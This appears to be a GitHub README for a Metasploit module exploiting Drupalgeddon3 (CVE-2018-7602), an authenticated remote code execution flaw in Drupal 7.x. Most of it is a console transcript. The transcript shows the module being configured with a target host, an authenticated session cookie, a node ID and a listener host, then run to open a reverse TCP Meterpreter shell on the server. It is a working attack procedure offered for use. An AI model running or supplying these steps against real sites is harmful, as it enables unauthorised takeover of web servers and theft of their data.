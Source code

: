 # Drupal < 7.58 - 'Drupalgeddon3' Authenticated Remote Code Execution (Metasploit)
Author:
- [SixP4ck3r](https://twitter.com/sixp4ck3r)
- [Blaklis](https://www.exploit-db.com/exploits/44542/) Initial POC

Original Exploit:
- [exploit-db.com](https://www.exploit-db.com/exploits/44542/)
Notes:
- CVE-2018-7602 / SA-CORE-2018-004
- A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x.
This potentially allows attackers to exploit multiple attack vectors on a Drupal site
Which could result in the site being compromised.
This vulnerability is related to Drupal core - Highly critical - Remote Code Execution

### Example Metasploit
<img src='https://i.imgur.com/9qRHfZ7.png'/>


### Output Metasploit
```bash
six@ub:/opt/metasploit-framework$ ./msfconsole 
[-] ***rting the Metasploit Framework console...|
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.0-dev-8164379                   ]
+ -- --=[ 1758 exploits - 1006 auxiliary - 306 post       ]
+ -- --=[ 536 payloads - 41 encoders - 10 nops            ]
+ -- --=[ ** This is Metasploit 5 development branch **   ]

msf5 > use unix/webapp/drupal_drupalgeddon3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set RHOST 192.168.1.200
RHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_SESSION SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
DRUPAL_SESSION => SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_NODE 3
DRUPAL_NODE => 3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set LHOST 192.168.1.200
LHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > exploit

[*] Started reverse TCP handler on 192.168.1.200:4444 
[*] Token Form -> u73s2UzA1B056tdlItiAfpeolb5OVwLGEF5EAFH0bJY
[*] Token Form_build_id -> form-FtN_yMsgJI9GlviMbemIkYxgJ97xsUZ7Lg2hOtW1IlI
[*] Sending stage (37775 bytes) to 192.168.1.200
[*] Meterpreter session 1 opened (192.168.1.200:4444 -> 192.168.1.200:60156) at 2018-04-29 15:04:33 -0400

meterpreter > 
```
